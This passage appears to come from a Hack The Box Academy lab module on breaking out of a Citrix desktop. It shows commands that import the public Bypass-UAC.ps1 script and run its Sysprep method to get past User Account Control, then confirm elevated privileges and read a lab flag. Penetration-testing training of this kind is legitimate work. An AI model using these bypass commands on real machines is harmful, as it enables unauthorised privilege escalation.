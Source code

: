   Citrix Breakout

```cmd-session
C:\Windows\system32> cd C:\Users\Administrator

Access is denied.
```

Numerous [UAC bypass](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) scripts are available, designed to assist in circumventing the active User Account Control (UAC) mechanism. These scripts offer methods to navigate past UAC restrictions and gain elevated privileges.

  Citrix Breakout

```powershell-session
PS C:\Users\Public> Import-Module .\Bypass-UAC.ps1
PS C:\Users\Public> Bypass-UAC -Method UacMethodSysprep
```

![Command prompt running as VDESKTOP3\backdoor with PowerShell bypass. Script imports Bypass-UAC.ps1 and executes UacMethodSysprep. Outputs include impersonating explorer.exe, dropping proxy DLL, and executing sysprep.](https://academy.hackthebox.com/storage/modules/67/bypass_uac.png)

Following a successful UAC bypass, a new powershell windows will be opened with higher privileges and we can confirm it by utilizing the command `whoami /all` or `whoami /priv`. This command provides a comprehensive view of the current user's privileges. And we can now access the Administrator directory.

![Command prompt showing directory listing of C:\Users\Administrator\Desktop with file flag.txt, size 19 bytes. 'whoami' command output: vdesktop3\backdoor.](https://academy.hackthebox.com/storage/modules/67/flag.png)

Note: Wait for 5 minutes after spawning the target. Disregard the licensing message.